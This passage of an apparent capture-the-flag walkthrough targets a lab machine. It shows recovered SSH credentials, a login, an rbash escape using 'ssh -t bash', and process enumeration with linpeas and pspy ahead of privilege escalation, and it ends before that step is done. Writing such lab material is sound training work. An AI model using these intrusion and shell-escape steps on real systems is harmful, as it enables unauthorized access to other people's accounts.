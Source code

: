 ```
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```
### SSH Access to mindy's account
Knowing Mindy's SSH credentials, we will now try to gain SSH access to her account. However, we also realize that mindy's default shell is rbash instead of bash.
```
┌──(kali㉿kali)-[~]
└─$ ssh mindy@10.10.10.51               
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ id
-rbash: id: command not found
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
```

Let us try to escape the rbash by using ```ssh mindy@10.10.10.51 -t "bash" ``` to SSH instead. We also realize that ```/``` is a forbidden character so /bin/bash is not going to work.

```
┌──(kali㉿kali)-[~]
└─$ ssh mindy@10.10.10.51 -t "bash"                                                                              1 ⨯
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ 
```
### Obtaining user flag
```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat user.txt
<Redacted user flag>
```

### Privilege Escalation to root

Using linpeas, we realize that there is a background process that is running is being executed with root permissions, in the /opt directory.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ps -aux | grep run.sh
root       516  0.0  0.0   2332   620 ?        Ss   22:34   0:00 /bin/sh /opt/james-2.3.2/bin/run.sh
```

Now, we will use [pspy](https://github.com/DominicBreuker/pspy) to investigate the background processes. From here, we notice that there is a /opt/tmp.py being executed in the background as well.
